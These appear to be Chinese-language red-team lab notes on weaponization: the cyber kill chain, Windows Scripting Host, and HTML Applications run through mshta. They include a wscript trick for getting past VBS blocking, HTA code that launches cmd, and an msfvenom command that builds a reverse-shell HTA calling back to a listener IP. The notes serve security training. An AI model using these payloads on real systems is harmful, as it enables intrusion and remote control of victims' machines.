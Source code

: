 
# Weaponization

了解并探索常见的红队武器化技术。您将学习如何使用业内常见的方法来构建自定义有效负载，以获得初始访问权限。

## 什么是武器化

武器化是网络杀伤链模式的第二阶段。在此阶段，攻击者使用可交付的有效负载（如word文档，PDF等）生成和开发自己的恶意代码[1]。武器化阶段旨在使用恶意武器来利用目标机器并获得初始访问权限。

大多数组织都运行Windows操作系统，这将是一个可能的目标。组织的环境策略通常会阻止下载和执行.exe以避免安全违规。因此，红队成员依赖于构建通过各种渠道（例如网络钓鱼活动、社交工程、浏览器或软件利用、USB 或 Web 方法）发送的自定义有效负载。

大多数组织在其受控环境中阻止或监视.exe文件的执行。出于这个原因，红队依赖于使用其他技术（例如内置的窗口脚本技术）执行有效负载。

## Windows Scripting Host

Windows 脚本主机是一个内置的 Windows 管理工具，可运行批处理文件以自动执行和管理操作系统中的任务。

它是一个Windows原生引擎，cscript.exe（用于命令行脚本）和wscript.exe（用于UI脚本），负责执行各种Microsoft Visual Basic Script（VBScript），包括vbs和vbe。需要注意的是，Windows 操作系统上的 VBScript 引擎以与普通用户相同的访问和权限级别运行和执行应用程序;因此，它对红队员很有用。

另一个技巧。如果 VBS 文件被列入黑名单，那么我们可以将文件重命名为.txt文件并使用 wscript 运行它，如下所示，

```cmd
c:\Windows\System32>wscript /e:VBScript c:\Users\thm\Desktop\payload.txt
```

结果将与执行运行 calc.exe 二进制文件的 vbs 文件一样精确。

## An HTML Application（HTA）

### An HTML Application （HTA）

HTA 代表“HTML 应用程序”。它允许您创建一个可下载的文件，该文件获取有关其显示和呈现方式的所有信息。 HTML 应用程序，也称为 HTA，它们是包含 JScript 和 VBScript 的动态 HTML 页面。LOLBINS（土地生活二进制文件）工具mshta用于执行HTA文件。它可以单独执行，也可以从Internet Explorer自动执行。

在下面的示例中，我们将在有效负载中使用JavaScript ActiveXObject 作为执行 cmd.exe 的概念证明。请考虑以下 HTML 代码。

```html
<html>
<body>
<script>

    new ActiveXObject('WScript.shell').Run('cmd');

</script>
</body>
</html>
```

### HTA反向连接

我们可以创建一个反向外壳有效载荷，如下所示，

    msfvenom -p windows/x64/shell_reverse_tcp lhost=10.14.39.48 lport=443 -f hta-psh -o ./rev_she11.hta
